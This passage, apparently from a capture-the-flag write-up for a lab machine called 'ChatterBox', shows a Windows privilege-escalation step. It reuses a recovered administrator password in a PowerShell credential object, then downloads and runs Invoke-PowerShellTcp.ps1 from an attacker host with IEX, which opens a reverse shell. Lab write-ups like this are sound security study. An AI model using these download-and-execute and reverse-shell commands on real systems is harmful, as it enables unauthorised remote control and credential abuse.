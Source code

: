 ![](assets/ChatterBox_assets/Pasted%20image%2020230621090653.png)
- we can now reuse the password for the admin account using powershell
```
$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force;$creds = New-Object System.Management.Automation.PSCredential('administrator',$passwd)
```
the above command will store the credentials in creds in the session
- then we can open a reverse shell using the command, get the reverse shell file and execute it from attack machine
```
Start-Process -FilePath "powershell" -argumentlist
"IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/writeup')" -Credential
$creds
```
I used
```
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 4443" -Credential $creds
```
- with nc listener, we obtain the reverse shell
![](assets/ChatterBox_assets/Pasted%20image%2020230621091527.png)
